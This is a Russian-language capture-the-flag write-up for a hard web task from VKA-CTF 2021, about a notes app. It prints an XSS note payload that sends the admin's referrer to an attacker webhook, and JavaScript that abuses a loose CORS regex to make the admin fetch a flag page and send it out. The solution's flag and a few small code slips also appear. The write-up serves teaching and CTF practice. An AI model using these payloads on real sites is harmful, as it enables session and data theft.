


## Безликие заметки

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKA-CTF`2021 | Безликие заметки | Web | hard |

### Описание

> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> Один из наших агентов, находящийся в компании СССР 2.0 и приближенный к руководству на Земле, недавно доложил, что у них есть [приложение](https://main.beautiful-notes.ml) для анонимного создания заметок, которыми они делятся с правительством Земли. Агент смог вытащить исходные коды приложения, но вот проанализировать их и сделать выводы у него не хватает знаний! Также он узнал, что если получить доступ администратора, то компания Космос Х сможет тайно подслушивать все обращения пользователей. Нужно получить его как можно скорее! Время уходит, они могут в любой момент узнать об утечке. Поторопитесь, мы не забудем наших героев!

### Решение


Приложение позволяет создать личный аккаунт, добавить заметки и поделиться ими с админом.

Из исходного кода можно понять, что если при создании заметки добавить поле `style`, то данная заметка будет отображаться на странице небезопасным способом (`XSS`):

```html
<p
    v-if="post.style"
    v-html="postWithStyles(post)">
</p>
<p v-else>
    {{post.content}}
</p>
```

Домен администратора скрыт. Используя уязвимость XSS можно узнать поле `Referrer`. Для этого необходимо создать заметку следующим запросом и поделиться ей с админом:

```json
{
    "title":"krause",
    "content":"<input autofocus onfocus=location.replace(`http://<webhook>/${btoa(document.referrer)}`)></input>",
    "style":"background-color:black;"
}
```

Зная домен, мы можем заставить администратора получить содержимое страницы `/iwantflag` и отправить его нам, но сделать это с поддомена `main` нам запрещает мезанизм защиты `CORS` (Mixed Content).



Можно заметить, что регуляное выражение, которое описывает заголовок `Access-Control-Allow-Origin` настроено неверно:
```js
const any_subdomain = new RegExp(`http:\/\/.*${process.env.MAIN_DOMAIN}$`)
```
Зарегистрировав свой домен, который оканчивается на `beautifyl-notes.ml`, мы можем разместить на нём JS код, который заставит админа получить содержимое страницы с флагом:
```js
fetch('http://adminsubdomain.beautiful-notes.ml/iwantflag')
.then(response => response.text())
.then(data => fetch(`http://<webhook>/&flag=${unescape(encodeURIComponent(data))}`)));
```

Подождав не больше минуты получаем флажок

**Флаг:**

> vka{c0r5_m15c0nf16_4nd_x55}